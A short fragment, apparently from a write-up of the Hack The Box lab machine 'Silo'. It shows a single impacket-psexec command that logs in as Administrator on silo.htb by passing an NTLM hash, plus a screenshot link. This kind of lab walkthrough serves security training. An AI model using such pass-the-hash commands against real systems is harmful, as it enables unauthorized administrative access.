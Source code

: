 
<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 Administrator@silo.htb</span>
</div>
<br>

![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(15).png)